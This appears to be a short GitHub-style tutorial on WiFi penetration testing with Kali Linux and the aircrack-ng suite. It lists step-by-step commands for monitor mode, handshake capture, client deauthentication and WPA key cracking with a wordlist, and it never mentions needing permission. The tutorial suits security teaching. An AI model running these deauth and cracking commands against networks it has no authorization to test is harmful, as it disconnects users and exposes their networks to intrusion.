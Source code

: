<h3>Penetration Testing - WiFi</h3>

OS = Kali Linux Live Everything > You may download it from https://kali.org<br>
Tools - aircrack-ng<br>
<br>
Hardwares - Atheros 9721 or ALFA Model AWUS036NH<br>
OR You may boot Kali Linux Live Everything by making a bootable USB using "RUFUS" and use your own laptop's network adapter (Important! It should support "Monitor Mode" otherwise it will not work)<br>
<br>
Tool	Purpose	Example Command<br>
<br>
airmon-ng<br>
[Enable monitor mode] >>> sudo airmon-ng start wlan0<br>
<br>
airodump-ng<br>
[Capture network traffic] >>> sudo airodump-ng -c 6 wlan0mon<br>
<br>
aireplay-ng<br>
[Inject/deauth packets] >>> sudo aireplay-ng -0 1 ...<br>
<br>
aircrack-ng<br>
[Crack WPA/WEP keys] >>> sudo aircrack-ng -w wordlist.lst ...<br>
<br>
<br>
Kali Linux Commands:<br>
<br>
1. ifconfig to check network interfaces<br>
2. iwconfig to check wireless interfaces<br>
 By default the wireless interface is in MANAGED MODE. <br>
3. airmon-ng stop wlan0 (if the interface is wlan0)<br>
4. airmon-ng start wlan0 ( from stopping to start I will be gone into monitoring mode)<br>
5. airodump-ng wlan0 or wlan0mon<br>
6. airodump-ng --bssid <BSSID> --channel <CHANNEL> -w <ESSID> wlan0 (or if its wlan0mon)<br>
7. Open another terminal or terminal tab and then enter the following command<br>
8. aireplay-ng --deauth 10 -a <BSSID> -c <CLIENT_MAC> wlan0<br>
9. aircrack-ng -w /path/to/wordlist.txt -b <BSSID> capture-01.cap<br>
